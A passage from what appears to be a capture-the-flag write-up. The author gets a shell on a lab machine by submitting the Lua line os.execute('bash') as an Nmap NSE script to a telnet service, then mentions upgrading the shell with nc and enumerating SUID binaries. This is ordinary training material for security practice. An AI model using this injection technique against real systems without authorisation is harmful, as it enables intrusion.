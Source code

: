 ```
        [C]: in ?

QUITTING!
Connection closed by foreign host.
```
    
From this service we know that it runs nmap but we need to specifier a nse script 

And nmap nse script is a lua file 

Checking [gtfobins](https://gtfobins.github.io/gtfobins/lua/) on how to execute command its done by using `os.execute($command)`

So i'll try it out now on the remote server

```
└─$ telnet 10.0.30.92 5902
Trying 10.0.30.92...
Connected to 10.0.30.92.
Escape character is '^]'.
 _____________________________________
/ Network Mapper Server (works better \
\ with telnet)                        /
 -------------------------------------
    \
     \
                                   .::!!!!!!!:.
  .!!!!!:.                        .:!!!!!!!!!!!!
  ~~~~!!!!!!.                 .:!!!!!!!!!UWWW$$$ 
      :$$NWX!!:           .:!!!!!!XUWW$$$$$$$$$P 
      $$$$$##WX!:      .<!!!!UW$$$$"  $$$$$$$$# 
      $$$$$  $$$UX   :!!UW$$$$$$$$$   4$$$$$* 
      ^$$$B  $$$$\     $$$$$$$$$$$$   d$$R" 
        "*$bd$$$$      '*$$$$$$$$$$$o+#" 
             """"          """"""" 
Provide an NSE. CTRL+D to end
os.execute('bash')
Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-16 00:20 UTC
bash: /root/.bashrc: Permission denied
nmap@doorknob:/home/nmap$ 
```

It worked 🤓. To call the bash process you need to end the nmap command using `CTRL +D`

I'll get a more stable shell using nc 
![image](https://user-images.githubusercontent.com/113513376/219226097-7c526213-6db9-4385-8174-121e5f1f9895.png)

Searching for suid binaries shows this
![image](https://user-images.githubusercontent.com/113513376/219226489-80ed1f1e-93b9-44c6-a5f5-902d5a21dbf7.png)

I'll upload to my machine to analyze it
![image](https://user-images.githubusercontent.com/113513376/219226887-671542f4-b6cd-4c70-bb29-64fa3be085e5.png)

We see its a x86 binary which is statically meaning that the contents of that file are included at link time. In other words, the contents of the file are physically inserted into the executable
